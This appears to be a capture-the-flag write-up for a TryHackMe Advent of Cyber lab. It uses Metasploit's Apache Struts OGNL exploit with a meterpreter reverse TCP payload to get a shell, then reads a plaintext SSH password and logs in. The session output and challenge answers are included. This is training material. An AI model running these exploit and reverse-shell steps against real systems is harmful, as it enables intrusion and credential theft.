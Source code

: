 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 10
### References
* Spring, B. (2019, December 9). Metasploit: Basics. TryHackMe Blog. https://blog.tryhackme.com/metasploit/
## Compromise the web server using Metasploit. What is flag1?
* According to the [blog post](https://blog.tryhackme.com/metasploit/):
> The Christmas challenge will include a web server that is running a vulnerable version of Apache Struts 2 (an open-source web application framework for Java applications).
* The [blog post](https://blog.tryhackme.com/metasploit/) uses `exploit/multi/http/struts2_content_type_ognl`:
![`exploit/multi/http/struts2_content_type_ognl`](https://blog.tryhackme.com/content/images/2019/12/Screenshot-from-2019-12-09-20-48-19.png)

```bash
$ msfconsole -q
msf6 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution

msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.194.217
RHOSTS => 10.10.194.217
msf6 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST 10.4.32.172
LHOST => 10.4.32.172
msf6 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.4.32.172:4444 
[*] Sending stage (980808 bytes) to 10.10.194.217
[*] Meterpreter session 1 opened (10.4.32.172:4444 -> 10.10.194.217:41814) at 2021-06-29 15:52:56 +1000

meterpreter > shell
Process 52 created.
Channel 1 created.
$ find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
$ exit
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

**Flag 1**: `THM{3ad96bb13ec963a5ca4cb99302b37e12}`
## Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-09 08:12:45 +1100  santa

meterpreter > cd santa
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-09 08:12:44 +1100  ssh-creds.txt

meterpreter > cat ssh-creds.txt 
santa:rudolphrednosedreindeer
```

**Answer**: `rudolphrednosedreindeer`
## Who is on line 148 of the naughty list?
```bash
 ssh santa@10.10.194.217
santa@10.10.194.217's password: rudolphrednosedreindeer
[santa@ip-10-10-194-217 ~]$ sed '148!d' naughty_list.txt 
Melisa Vanhoose
```
**Answer**: `Melisa Vanhoose`
## Who is on line 52 of the nice list?
```bash
[santa@ip-10-10-194-217 ~]$ sed '52!d' nice_list.txt 
Lindsey Gaffney
```
**Answer**: `Lindsey Gaffney`